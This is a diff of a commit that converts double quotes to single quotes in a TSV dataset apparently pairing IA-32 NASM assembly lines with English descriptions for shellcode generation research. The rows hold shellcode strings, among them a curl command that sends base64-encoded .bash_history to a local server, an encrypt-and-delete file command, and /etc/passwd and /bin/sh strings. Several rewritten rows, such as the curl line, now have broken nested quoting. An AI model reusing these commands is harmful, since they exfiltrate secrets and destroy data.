

Before and after one commit to dessertlab/Shellcode_IA32, a TSV file: Shellcode_IA32.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

```diff
--- a/Shellcode_IA32.tsv
+++ b/Shellcode_IA32.tsv
@@ -595,4 +595,4 @@ global _start	global _start
 global _start:	declare the global _start label
-google db "127.1.1.1 google.com"	define google as the byte string "127.1.1.1 google.com"
-google: db "127.1.1.1 google.com"	define the byte string google and initialize it to "127.1.1.1 google.com"
+google db '127.1.1.1 google.com'	define google as the byte string '127.1.1.1 google.com'
+google: db '127.1.1.1 google.com'	define the byte string google and initialize it to '127.1.1.1 google.com'
 gotocall:	declare the gotocall label
@@ -1011,6 +1011,6 @@ me:	define me label
 message db '/bin/sh'	define message byte and initialize it to '/bin/sh'
-message db 'hello',13,0	allocate memory for a null terminated string "hello\n"
-message db "/bin/sh"	define message as the byte string "/bin/sh"
-message db "/etc/passwd"	define message as the byte string "/etc/passwd"
-message db "/etc/passwd"	define the string message and initialize it to "/etc/passwd"
+message db 'hello',13,0	allocate memory for a null terminated string 'hello\n'
+message db '/bin/sh'	define message as the byte string '/bin/sh'
+message db '/etc/passwd'	define message as the byte string '/etc/passwd'
+message db '/etc/passwd'	define the string message and initialize it to '/etc/passwd'
 message: db 'hello world!'	declare message to contain the bytes 'hello world!'
@@ -1827,5 +1827,5 @@ msg db 'hello, world!', 0xa	declare msg string containing 'hello world!'
 msg db 'i love you!', 0ah	define msg variable and initialize with 'i love you!'
-msg db "curl http://localhost:8080 -d 'data='$(cat .bash_history | base64 -w 0) -x post", 0x0a	define msg as the byte string "curl http://localhost:8080 -d 'data='$(cat .bash_history | base64 -w 0) -x post"
-msg db "mv test.txt .test.txt && head -c 32 /dev/urandom | base64 | openssl aes-256-cbc -e -in .test.txt -out test.txt -pbkdf2 -k - && rm .test.txt", 0x0a	define msg as the byte string "mv test.txt .test.txt && head -c 32 /dev/urandom | base64 | openssl aes-256-cbc -e -in .test.txt -out test.txt -pbkdf2 -k - && rm .test.txt"
-msg db "we found the egg!", 0ah, 0dh	define msg as the byte string "we found the egg!"
+msg db 'curl http://localhost:8080 -d 'data='$(cat .bash_history | base64 -w 0) -x post', 0x0a	define msg as the byte string 'curl http://localhost:8080 -d 'data='$(cat .bash_history | base64 -w 0) -x post'
+msg db 'mv test.txt .test.txt && head -c 32 /dev/urandom | base64 | openssl aes-256-cbc -e -in .test.txt -out test.txt -pbkdf2 -k - && rm .test.txt', 0x0a	define msg as the byte string 'mv test.txt .test.txt && head -c 32 /dev/urandom | base64 | openssl aes-256-cbc -e -in .test.txt -out test.txt -pbkdf2 -k - && rm .test.txt'
+msg db 'we found the egg!', 0ah, 0dh	define msg as the byte string 'we found the egg!'
 msg_len equ $-msg	define msg_len equal to the length of msg
@@ -1833,3 +1833,3 @@ msg1 db 'hello, brave new world!', 0ah	declare message string msg1 containing 'h
 msg2 db 'this is how we recycle in nasm.', 0ah	declare message string msg2 containing 'this is how we recycle in nasm'
-msg2 db "passwd", 0x00	define msg2 as the byte string "passwd"
+msg2 db 'passwd', 0x00	define msg2 as the byte string 'passwd'
 msglength: equ 12	declare msglength to have the constant value 12
@@ -1969,7 +1969,7 @@ process_shellcode:	declare the process_shellcode label
 push _ip	push _ip onto the stack
-push "//pa"	push "//pa" onto the stack
-push "//sh"	push "//sh" onto the stack
-push "/bin"	push "/bin" onto the stack
-push "/etc"	push "/etc" onto the stack
-push "sswd"	push "sswd" onto the stack
+push '//pa'	push '//pa' onto the stack
+push '//sh'	push '//sh' onto the stack
+push '/bin'	push '/bin' onto the stack
+push '/etc'	push '/etc' onto the stack
+push 'sswd'	push 'sswd' onto the stack
 push [tmp]	push the 4 bytes at address tmp onto stack
```
Also changed, not shown: 41 edited cells elsewhere in this file.
